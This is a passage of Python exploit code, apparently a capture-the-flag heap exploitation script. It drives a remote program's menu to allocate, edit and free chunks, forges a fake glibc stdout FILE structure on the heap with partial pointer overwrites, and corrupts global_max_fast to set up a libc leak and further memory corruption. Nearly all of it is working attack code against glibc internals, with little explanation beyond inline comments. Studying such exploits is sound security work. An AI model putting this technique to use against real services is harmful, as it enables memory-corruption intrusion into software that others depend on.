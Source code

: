 ```python
    r.sendafter('content: ', ct)

def free(off):
    r.sendlineafter('>> ', '3')
    r.sendlineafter('offset: ', str(off))

global_max_fast_poff = 0xd7d0
stdout_write_base_poff = 0xc610
chk_sz = 0x420

for i in range(0xe):
    edit(0xf8 + i*0x10, p64(0x201))
for i in range(0x10):
    edit(0x2f8 + i*0x10, p64(0x21))
for i in range(0xd):
    free(0x1d0 - i*0x10)
    malloc(0x1f0)

"""
0xfbad3c80 == _IO_IS_FILEBUF | _IO_IS_APPENDING --> 0x3000
              _IO_TIED_PUT_GET | _IO_CURRENTLY_PUTTING --> 0xc00
              _IO_LINKED --> 0x80
0xfbad2887 == _IO_IS_FILEBUF --> 0x2000
              _IO_CURRENTLY_PUTTING --> 0x800
              _IO_LINKED --> 0x80
              _IO_USER_BUF | _IO_UNBUFFERED | _IO_NO_READS --> 0x7
"""
# fake _IO_2_1_stdout_ start from heap_base + 0x100
edit(0x100, p32(0xfbad3887)) # _flags == 0xfbad2887 | _IO_IS_APPENDING
edit(0x108, p64(0)) # read_ptr
edit(0x110, p64(0)) # read_end
edit(0x110, p64(0)) # read_base
edit(0x120, p16(0xc610)) # write_base (stdout + 0x10)
edit(0x128, p16(0xc683)) # write_ptr
edit(0x130, p16(0xc683)) # write_end
edit(0x138, p16(0xc683)) # buf_base
edit(0x140, p16(0xc684)) # buf_end
edit(0x148, p64(0)*4) # save_base, backup_base, save_end, markers
edit(0x168, p16(0xb8c0)) # chain
edit(0x170, p32(1)) # fileno
edit(0x174, p32(0)) # _flags2
edit(0x178, p64(2**64 - 1)) # _old_offset
edit(0x180, p64(0)) # _cur_column _vtable_offset _shortbuf
edit(0x188, p16(0xd760)) # _lock
edit(0x190, p64(2**64 - 1)) # _offset
edit(0x198, p64(0)) # _codecvt
edit(0x1a0, p16(0xb780)) # _wide_data
edit(0x1a8, p64(0) * 3) # _freeres_list, _freeres_buf, __pad5
edit(0x1c0, p32(2**32 - 1)) # _mod
edit(0x1c4, p32(0) + p64(0)*2) # _unused2
edit(0x1d8, p16(0x8440)) # vtable

edit(0x1008, p64(0x91))
edit(0x1098, p64(0x21))
edit(0x10b8, p64(0x21))
free(0x1010)
edit(0x1018, p16(global_max_fast_poff - 0x10))
malloc(0x80) # overwrite global_max_fast to a large value

edit(0x108, p64(0x17e1)) # &stdout
edit(0x18e8, p64(0x21))
edit(0x1908, p64(0x21))
free(0x110)
```